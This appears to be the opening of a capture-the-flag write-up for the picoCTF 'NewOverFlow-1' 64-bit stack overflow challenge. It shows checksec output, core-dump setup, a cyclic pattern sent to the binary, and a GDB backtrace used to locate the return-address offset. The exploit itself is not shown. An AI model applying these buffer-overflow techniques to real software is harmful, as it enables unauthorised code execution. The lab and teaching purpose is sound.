 This should be a pretty simple overflow challenge. However, there's a twist.

First, we'll go over the steps that should have worked in a perfect world.

```console
root@kali:/media/sf_CTFs/pico/NewOverFlow-1# checksec.sh -f ./vuln
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      Symbols         FORTIFY Fortified                                                                                     Fortifiable  FILE
Partial RELRO   No canary found   NX enabled    No PIE          No RPATH   No RUNPATH   72 Symbols      No      0                                                                                             6./vuln
```

From the C file we can see that the program allocates a buffer of 64 bytes, and performs an unbound read into the buffer. Since there's no canary and no PIE enabled, we just have to overrun the return address of `vuln` with the address of `flag` and we should see the flag being printed.

We start by configuring the system to create a core dump for the upcoming crash:
```console
root@kali:/media/sf_CTFs/pico/NewOverFlow-1# ulimit -c unlimited
root@kali:/media/sf_CTFs/pico/NewOverFlow-1# echo ~/core/core_dump > /proc/sys/kernel/core_pattern
```

Then, we input to the program a 64-bit De-Bruijn sequence using the  `cyclic` utility to locate the overflow offset:
```console
root@kali:/media/sf_CTFs/pico/NewOverFlow-1# cyclic -n 8 100 | ./vuln
Welcome to 64-bit. Give me a string that gets you the flag:
Segmentation fault (core dumped)
```

We open the core dump with GDB to locate the faulting address:
```console
root@kali:/media/sf_CTFs/pico/NewOverFlow-1# gdb ./vuln ~/core/core_dump 2>/dev/null
GNU gdb (Debian 7.12-6+b1) 7.12.0.20161007-git
Copyright (C) 2016 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.  Type "show copying"
and "show warranty" for details.
This GDB was configured as "x86_64-linux-gnu".
Type "show configuration" for configuration details.
For bug reporting instructions, please see:
<http://www.gnu.org/software/gdb/bugs/>.
Find the GDB manual and other documentation resources online at:
<http://www.gnu.org/software/gdb/documentation/>.
For help, type "help".
Type "apropos word" to search for commands related to "word"...
Reading symbols from ./vuln...(no debugging symbols found)...done.
[New LWP 1805]
Core was generated by `./vuln'.
Program terminated with signal SIGSEGV, Segmentation fault.
#0  0x00000000004007e7 in vuln ()
gdb-peda$ bt
#0  0x00000000004007e7 in vuln ()
#1  0x616161616161616a in ?? ()
#2  0x616161616161616b in ?? ()
#3  0x616161616161616c in ?? ()
#4  0x00007f006161616d in ?? ()
#5  0x0000000000000000 in ?? ()
gdb-peda$ quit
```
